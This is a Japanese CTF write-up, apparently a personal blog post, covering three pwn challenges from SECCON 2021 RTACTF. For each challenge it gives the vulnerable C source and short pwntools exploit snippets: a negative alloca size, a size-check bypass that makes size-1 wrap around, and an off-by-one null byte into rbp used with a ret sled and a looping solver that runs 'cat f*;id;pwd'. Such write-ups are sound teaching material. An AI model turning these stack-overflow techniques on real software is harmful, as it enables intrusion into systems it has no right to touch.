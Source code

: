 ```yaml
---
layout: page
title: "SECCON2021 RTACTF pwn"
date: 2021-12-19 00:00:00 -0000
---
```


３問解いて、順位が２，２，４でした。

# alloca

サイズチェックされいないためスタック書き放題ですが、そのサイズ分しか書き込めないようになっています。負数だろうと思い-1を入れると、いい感じにセグったので終わりました。

```c
int main() {
  int size;
  char *buf;

  /* Input size */
  printf("size: ");
  scanf("%d%*c", &size);

  /* Input data */
  printf("data: ");
  buf = alloca(size);
  readn(buf, size);

  return 0;
}
```

```python
r.sendlineafter(': ', '-1')
r.sendlineafter(': ', 'a'*40+p64(elf.sym.win))
```

気になったので、負数を入れると何が起きていたのかを見てみます。

まず最初のサイズは`rbp-0xc`に入ります。そこから`+8`されて、`+0xf`されて、`0x10`で割られて`0x10`かけられます。入力されたサイズ+8を16バイトでそろえて切り上げる処理ですね。そのあとで、先の値を0xfffffffffffff000でandを取ってスタックから引いて、目標値を設定します。ぱっと見は負数だろうがなんだろうが言われた通り引き算していて、安全そうに見えます。

```
   0x0000000000401261 <+29>:    lea    rax,[rbp-0xc]
=> 0x0000000000401265 <+33>:    mov    rsi,rax
   0x0000000000401268 <+36>:    lea    rdi,[rip+0xda4]        # 0x402013
   0x000000000040126f <+43>:    mov    eax,0x0
   0x0000000000401274 <+48>:    call   0x4010c0 <__isoc99_scanf@plt>
   0x0000000000401279 <+53>:    lea    rdi,[rip+0xd99]        # 0x402019
   0x0000000000401280 <+60>:    mov    eax,0x0
   0x0000000000401285 <+65>:    call   0x401080 <printf@plt>
   0x000000000040128a <+70>:    mov    eax,DWORD PTR [rbp-0xc]
   0x000000000040128d <+73>:    cdqe   
   0x000000000040128f <+75>:    lea    rdx,[rax+0x8]
   0x0000000000401293 <+79>:    mov    eax,0x10
   0x0000000000401298 <+84>:    sub    rax,0x1
   0x000000000040129c <+88>:    add    rax,rdx
   0x000000000040129f <+91>:    mov    esi,0x10
   0x00000000004012a4 <+96>:    mov    edx,0x0
   0x00000000004012a9 <+101>:   div    rsi
   0x00000000004012ac <+104>:   imul   rax,rax,0x10
   0x00000000004012b0 <+108>:   mov    rcx,rax
   0x00000000004012b3 <+111>:   and    rcx,0xfffffffffffff000
   0x00000000004012ba <+118>:   mov    rdx,rsp
   0x00000000004012bd <+121>:   sub    rdx,rcx
   0x00000000004012c0 <+124>:   cmp    rsp,rdx
   0x00000000004012c3 <+127>:   je     0x4012d7 <main+147>
   0x00000000004012c5 <+129>:   sub    rsp,0x1000
   0x00000000004012cc <+136>:   or     QWORD PTR [rsp+0xff8],0x0
   0x00000000004012d5 <+145>:   jmp    0x4012c0 <main+124>
   0x00000000004012d7 <+147>:   mov    rdx,rax
```

gdbで見てみると、入力サイズが`0xffffffff ffffffff`になり、ここに`+8`されて`7`になるため、これでスタックサイズが小さくなっていました。一方で直後の`readn(ptr, -1)`はintの端から端まで入るので、めでたくスタックに書き放題となります。

# noalloca

負数がはじかれるようになりました。何を思ったか、"きっと評価が4byteだろうから、0x100000000くらい入れたら上手くいくか"と思ってやってみたところ（たまたま）上手くいきました。

```c
int main() {
  unsigned size;
  char buf[0x80];

  /* Input size */
  printf("size: ");
  scanf("%d%*c", &size);
  if (size > 0x80) {
    puts("*** buffer overflow ***");
    return 1;
  }

  /* Input data */
  printf("data: ");
  readn(buf, size-1);

  return 0;
}
```

```python
r.sendlineafter(': ', '%d' % 0x100000000)
r.sendlineafter(': ', 'a'*152+p64(elf.sym.win))
```

これはかなり簡単で、`size`には0を入れれば良かったのです。`size`を0にすると、直後の`size-1`は大きな値になり、`readn`はこれまた書き放題になるという仕組みです。

`%d`は4バイトなので、4バイト以上を入れても受け付けません。しかし下位桁をオールゼロにしていたのでたまたま0が入って進んでいます。恐ろしく速い運の消費。

# constalloca

`alloca`に治安の良さそうな固定値が入りました。代わりに`readn`に不穏なnull terminateが追加されたrbpガチャ問です。2つの入力どちらかのoff-by-oneでrbpにnullが入り、`main`の最後に`ret`で抜けるとき一定確率で`content`の領域を指すようになります。

```c
void readn(char *ptr, int size) {
  /* Read data up to `size` bytes into `ptr` */
  for (int i = 0; i != size; i++, ptr++) {
    read(0, ptr, 1);
    if (*ptr == '\n') break;
  }
  *ptr = '\0'; // terminate by null
}

int main() {
  char title[0x18];
  char *content = alloca(0x80);

  /* Input title */
  printf("title: ");
  readn(title, 0x18);

  /* Input content */
  printf("data: ");
  readn(content, 0x80);

  return 0;
}
```

割と早い段階でソルバをwhileにして、retスレッドを用意してリモートぶっつけ本番としました。最後だけはかなり自信がありましたが4番。つよすぎる。ちなみにwinが一発起動なのでretスレッドは必要なく、winを並べた方がかしこいし早いです。

```python
def exp():
        r.sendafter(': ', 'A'*0x18)
        r.sendlineafter(': ', payload)
        r.sendline('cat f*;id;pwd')

rdi = 0x004013b3
payload = p64(rdi+1) * ((0x80/8)-1)
payload += p64(elf.sym.win)
while 1:
        r = start()
        exp()
        try:
                ret = r.recvuntil('\n')
                break
        except:
                r.close()
print ret
r.interactive()
r.close()
```

最初speendrunだから参加は見送りだったのですが、ボタンを押してからの秒数ということでぶっ続けでやる時間が確保できない状態でも参加できて、ライブで楽しめました。

運を使わずに解けるようにがんばりましょう。
